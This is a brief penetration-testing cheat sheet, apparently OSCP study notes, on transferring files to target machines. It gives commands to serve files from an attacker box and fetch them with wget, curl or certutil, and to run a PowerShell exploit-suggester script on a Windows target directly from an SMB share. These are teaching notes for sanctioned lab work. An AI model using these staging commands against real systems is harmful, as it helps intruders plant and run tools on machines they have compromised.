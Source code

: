 # File Transfers
```
In the folder with your file, on your machine

python -m SimpleHTTPServer 8080

Linux box:

wget <your-box>:8080/<your-file> or curl <your-box>:8080/<your-file>

Windows box

certutil.exe -urlcache -split -f "http://<your machine>:8080/<your-file>"
```
https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html
https://us.v-cdn.net/6030959/uploads/attachments/2/5/7/4/4/1/7613.pdf

```
For Windows im mostly using impackets smbserver thats included in kali (at least in the current 2020.1 version i'm using).

Simply start it with: impacket-smbserver <share name> <folder to share>

impacket-smbserver share /root/oscp/smbshare/

After that you can simply call executables from the share on the windows machine like this:

powershell \\10.11.0.1\share\ExploitSuggester.ps1

or you can copy the file to the box via:

copy \\10.11.0.1\share\ExploitSuggester.ps1 ExploitSuggester.ps1

```
https://sushant747.gitbooks.io/total-oscp-guide/transfering_files.html
https://github.com/Cr0wTom/OSCP-PWK-Repo
Book.hacktricks.xyz
